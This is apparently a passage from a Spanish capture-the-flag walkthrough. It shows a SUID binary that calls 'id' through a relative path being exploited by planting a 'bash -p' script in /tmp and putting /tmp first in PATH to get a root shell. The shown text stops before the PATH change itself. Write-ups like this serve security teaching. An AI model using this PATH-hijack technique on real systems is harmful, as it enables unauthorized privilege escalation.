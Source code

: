 Vemos un archivo password que no podemos ver, existe un archivo toto que podemos ejecutar:
```
bash-5.0$ file toto
toto: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=5f55e5cb083b2207ed23fc83f2dbf1cba931c868, for GNU/Linux 3.2.0, not stripped
```

Vemos que es un binario SUID, vamos a ver que hace:
```
./toto
uid=1001(john) gid=33(www-data) groups=33(www-data)
```

Si abrimos el binario, por supuesto es ilegible, pero si utilizamos strings podemos ver palabras:
```
bash-5.0$ strings toto
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u+UH
[]A\A]A^A_
:*3$"
GCC: (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
```

Vemos un par de cosas interesantes, pero nada crítico.

Vemos que este binario se comporta como el **id**, vamos a hacer una prueba, pues puede ser que este binario este utilizando este comando de forma relativa y no absoluta, en este caso podríamos realizar un cambio de path, en donde vamos a hacer que este archivo se ejecute y busque el comando **id** y use el que nosotros queremos, como el usuario que lo ejecuta es root, como es SUID, deberíamos ganar acceso como el. Lo haremos de la siguiente forma.

Vamos a ir al directorio **tmp** y crearemos un archivo, el cual se ejecutaría como si fuera un archivo en bash:
```
bash-5.0$ cd /tmp
bash-5.0$ echo "bash -p" > id
bash-5.0$ cat id
bash -p
```

Vemos que hemos creado un archivo id, el cual en caso de ejecutarse nos daría una bash con privilegios.

Vamos a darle permisos de ejecución.
```
bash-5.0$ chmod +x id
```
Bien, ahora tenemos esto listo, sin embargo, como haces que ejecute este archivo? para eso haremos una modifición a la variable de entorno PATH, en donde se empiezan a buscar todos los binarios, para ello vamos a introducir la dirección tmp como primera opción, por lo tanto, en caso de que se esté aplicando una ruta relativa, vaya al path y ejecute nuestro binario, pues es el primero que va a encontrar.
